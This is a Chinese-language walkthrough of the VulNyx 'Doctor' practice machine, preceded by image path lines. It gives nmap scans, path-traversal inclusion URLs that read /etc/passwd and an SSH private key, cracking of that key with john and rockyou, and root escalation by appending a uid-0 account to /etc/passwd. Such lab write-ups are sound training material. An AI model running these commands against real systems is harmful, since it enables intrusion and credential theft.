







# 环境

来自[Vulny_Doctor](https://vulnyx.com/#Doctor)，文件包含获取用户名和密钥，爆破密码，/etc/passwd写入新账号提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.19
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.19
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,80 192.168.10.19
```



## 指纹识别

```bash
whatweb http://192.168.10.19
```



# web渗透

## 存在文件包含

访问`http://192.168.10.19/doctor-item.php?include=../../../etc/passwd`，得到用户名

获取密钥访问`http://192.168.10.19/doctor-item.php?include=../../../home/admin/.ssh/id_rsa`



```bash
wget http://192.168.10.19/doctor-item.php?include=../../../home/admin/.ssh/id_rsa
chmod 600 id rsa
ssh2john id_rsa > id1
john id1 --wordlist=/usr/share/wordlist/rockyou.txt
账号：admin
密码：unicorn
```



## 提权

```bash
openssl passwd  #生成密码
echo 'abc:$1$f/wLSpW.$vwdkY3O9y1kfIbVzCNed8/:0:0:abc:/root:/bin/bash' >> /etc/passwd  #写入账户
su abc
```

